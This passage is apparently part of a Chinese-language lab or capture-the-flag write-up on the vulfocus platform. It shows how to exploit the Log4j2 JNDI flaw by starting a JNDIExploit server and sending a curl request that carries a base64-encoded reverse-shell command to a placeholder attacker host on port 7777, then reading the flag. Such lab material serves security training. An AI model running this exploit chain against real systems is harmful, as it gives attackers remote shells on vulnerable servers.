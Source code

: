     # 2.启动 JNDIEXploit 攻击服务器
    java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <attacker ip>

    # 3.发送携带攻击命令的 GET 包
    curl -G http://<victim ip>:<log4j2 漏洞环境端口>//hello --data-urlencode 'payload=${jndi:ldap://<attacker ip>:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/<attacker ip>/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'
    ```
    <div><img src="pic/挂起jdni攻击服务器+监听7777端口+发送携带攻击命令get包.png" width=100%></div>

    - 如上图，可以看到 curl 发包回显 ok ，JNDIExploit 输出执行命令日志，7777端口成功进入容器，反弹 shell 成功。此时 ```ls /tmp``` 可以看到 ```flag-{bmh95574061-0a5e-4a41-9d01-aefb592faa63}``` ，将其输入 vulfocus 平台提交通过。